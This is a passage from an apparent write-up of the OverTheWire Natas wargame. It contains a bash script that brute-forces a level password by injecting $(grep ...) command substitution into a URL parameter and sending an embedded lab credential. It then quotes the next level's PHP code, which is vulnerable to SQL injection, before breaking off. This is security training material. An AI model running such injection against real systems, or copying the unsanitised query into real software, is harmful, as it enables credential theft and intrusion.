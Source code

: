 That takes 3+ hours. Here's a faster variation (only ~15 mins, it checks that the pattern is sound from the beginning and doesn't wild goose chase other portions of the pattern `grep ^<pattern> dictionary.txt`):

```bash
char_set="A G H N P Q S W b c d g h k m n q r s w 0 3 5 7 8 9"

for s in $char_set
do
        array=$s
        change=1
        echo "on $s"
        while [ $change == 1 ]
        do
                change=0
                for c in $char_set
                do
                        echo "trying $array$c"
                        curl -s 'http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+%5E'$array$c'+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' \
                        -H 'Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==' > output2.txt

                        if [[ $(cat output2.txt | wc -l) -lt 300 ]]
                                then echo "found pattern: $array$c"
                                array=$array$c
                                change=1
                                break
                        fi
                done
        done
done
```


SQL Timing attack

As before but there's no print out, check out this scenario

```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
```